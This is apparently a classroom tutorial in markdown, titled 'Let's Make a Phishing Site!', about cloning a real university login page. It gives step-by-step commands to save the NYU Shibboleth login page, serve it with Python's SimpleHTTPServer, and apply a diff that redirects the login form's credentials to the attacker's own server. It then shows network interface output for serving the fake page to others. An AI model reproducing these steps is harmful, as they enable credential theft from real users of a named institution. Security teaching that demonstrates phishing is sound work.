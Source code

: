 
[![thegrugqsays](images/teach-someone-to-phish.png)](https://twitter.com/thegrugq/status/563964286783877121)

# Let's Make a Phishing Site!

   * Google Chrome
     * Command-Shift-N: Open an Incognito Window
     * https://home.nyu.edu
     * Redirected to https://shibboleth.nyu.edu/idp/profile/SAML2/...
     * Command-S: Save As
   * Command-Space: Search "Terminal"
     * cd "~/Downloads"
     * python -m SimpleHTTPServer 8000
   * Google Chrome
     * Command-T: New Tab
     * http://localhost:8000/NYU%20Login.htm
     * Now what do you notice?

# Let's Make This Nastier!

```
$ diff -u "NYU Login.htm" "NYU Login-PATCHED.htm"
--- NYU Login.htm    2017-09-05 22:32:04.000000000 -0400
+++ NYU Login-PATCHED.htm    2017-09-05 22:53:24.000000000 -0400
@@ -133,7 +133,7 @@

             <section class="col col2">
                 <div class="login">
-                    <form action="https://shibboleth.nyu.edu/idp/profile/SAML2/POST/SSO?execution=e1s1" method="post" name="login" id="login">
+                    <form action="/" method="post" name="login" id="login">
                         <h1>NYU Login</h1>
                                                                           <p>
                             <strong>Login to NYUHome</strong>
```

```
$ python server.py
```

# Let's Do This Over the Network!

```
$ ifconfig en0
en0: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
        options=10b<RXCSUM,TXCSUM,VLAN_HWTAGGING,AV>
        ether 38:c9:86:32:ec:ec
        inet6 fe80::3ac9:86ff:fe32:ecec%en0 prefixlen 64 scopeid 0x4
        inet 192.168.119.220 netmask 0xffffff00 broadcast 192.168.119.255
        nd6 options=1<PERFORMNUD>
        media: autoselect (1000baseT <full-duplex>)
        status: active
```
